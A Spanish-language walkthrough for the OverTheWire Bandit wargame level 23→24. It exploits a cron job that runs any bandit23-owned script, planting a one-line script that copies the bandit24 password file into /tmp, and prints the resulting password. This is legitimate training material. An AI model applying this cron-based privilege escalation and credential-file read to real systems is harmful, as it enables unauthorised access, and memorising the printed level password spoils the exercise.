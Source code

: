 # Walkthrough Bandit Level 23 → Level 24

Este walkthrough te guía paso a paso para aprovechar el cronjob que ejecuta un script en el sistema y obtener la contraseña del usuario **bandit24**.

---

## 1. Conéctate al Servidor

Inicia sesión en el servidor de Bandit como **bandit23** (usa la contraseña obtenida en el nivel anterior):

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

---

## 2. Verifica la Existencia del Cronjob

Lista el contenido del directorio de cronjobs para identificar el archivo relevante:

```bash
ls -l /etc/cron.d/
```

Deberías ver, entre otros archivos, **cronjob_bandit24**:

```
-rw-r--r-- 1 root root 120 Sep 19 07:08 cronjob_bandit24
```

Luego, revisa el contenido del archivo:

```bash
head /etc/cron.d/cronjob_bandit24
```

**Salida:**

```
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

*Esto confirma que el script `/usr/bin/cronjob_bandit24.sh` se ejecuta al reiniciar y cada minuto, como el usuario **bandit24**.*

---

## 3. Revisa el Script Ejecutado por Cron

Visualiza el contenido del script para comprender su funcionamiento:

```bash
cat /usr/bin/cronjob_bandit24.sh
```

**Salida:**

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

### Puntos Clave:

- La variable `myname` se define usando `whoami`.  
  *Como el script se ejecuta como **bandit24**, el directorio utilizado es `/var/spool/bandit24/foo`.*

- El script recorre todos los archivos en ese directorio y, **si el archivo es propiedad de bandit23**, lo ejecuta (con un timeout de 60 segundos) y luego lo elimina.

- Aunque no puedes listar el contenido de `/var/spool/bandit24/foo` por permisos, sí puedes escribir en él.

---

## 4. Crear el Script Malicioso

El objetivo es que el cronjob de **bandit24** ejecute un script que copie la contraseña de **bandit24** (ubicada en `/etc/bandit_pass/bandit24`) a un archivo en `/tmp/`.

Desde tu sesión de **bandit23**, crea el script en el directorio `/tmp`:

```bash
echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > /tmp/24.sh
```

Luego, hazlo ejecutable:

```bash
chmod +x /tmp/24.sh
```

*Importante:* Al crear el script de esta forma, aseguras que **bandit23** es el propietario, lo cual es imprescindible para que el cronjob lo ejecute.

---

## 5. Copiar el Script al Directorio de Ejecución del Cronjob

Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, tienes permisos para escribir en él. Copia el script allí:

```bash
cp /tmp/24.sh /var/spool/bandit24/foo/
```

Con esto, el archivo `/var/spool/bandit24/foo/24.sh` (propiedad de **bandit23**) estará listo para ser ejecutado por el cronjob.

---

## 6. Espera a que Cron Ejecute el Script

El cronjob se ejecuta cada minuto. Espera hasta que se dispare (aproximadamente 60 segundos). Durante la ejecución, el script copiará la contraseña de **bandit24** a `/tmp/certa_test.txt`.

---

## 7. Verifica la Contraseña

Una vez transcurrido el tiempo, comprueba el contenido del archivo generado:

```bash
cat /tmp/certa_test.txt
```

**Salida esperada:**

```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

Esta es la contraseña del usuario **bandit24**.

---

## 8. Conéctate al Siguiente Nivel

Utiliza la contraseña obtenida para acceder a **bandit24**:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Cuando se te solicite, ingresa la contraseña `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`.

---

## Consideraciones Finales

- **Exactitud en el Script:**  
  La línea dentro del script debe ser exactamente:
  
  ```bash
  cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt
  ```
  
  para asegurar que se copia la contraseña correctamente.

- **Permisos y Propietario:**  
  Es fundamental que el script sea propiedad de **bandit23**, ya que el cronjob verifica el propietario antes de ejecutarlo.

- **Directorio con Permisos de Escritura:**  
  Aunque no puedas listar el contenido de `/var/spool/bandit24/foo`, esto no impide que puedas escribir en él.

---

Con estos pasos en formato Markdown, se reproduce exactamente la solución probada y se llega al objetivo de obtener la contraseña del siguiente nivel. ¡Buena suerte en tu avance al nivel 24!